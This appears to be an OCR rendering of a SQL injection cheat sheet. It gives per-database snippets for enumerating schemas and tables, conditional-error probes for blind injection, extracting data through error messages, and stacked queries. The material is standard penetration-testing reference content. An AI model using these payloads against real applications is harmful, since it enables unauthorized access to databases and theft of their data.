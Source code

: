 ```sql
select schema_name from information_schema.schemata
select table_name from information_schema.tables where table_schema='database'
select column_name from information_schema.columns
```

### Conditional errors

1. Oracle

```sql
select case when('CONDITION') then to_char(1/0) else NULL end from dual
```

2. Microsoft

```sql
select case when('CONDITION') then 1/0 else NULL end
```

3. PostgreSQL

```sql
1 = (select case when ('CONDITION') then 1/(select 0) else NULL end)
```

4. MySQL

```sql
select if('CONDITION',(select table_name from information_schema.tables),'a')
```

### Extracting data via visible error messages

1. Microsoft

```sql
select 'foo' where 1=(select 'test')
> Conversion failed when converting the varchar value 'test' to data type int.
```

2. PostgreSQL

```sql
select cast((select 'test') as int)
> invalid input syntax for integer: "test"
```

3. MySQL

```sql
select 'foo' where 1=1 and extractvalue(1,concat(0x5c,(select 'test')))
> XPATH syntax error: '\test'
```

### Batched (or stacked) queries

1. Microsoft

```sql
select 'query1'; select 'query2'
select 'query1' select 'query2'
```
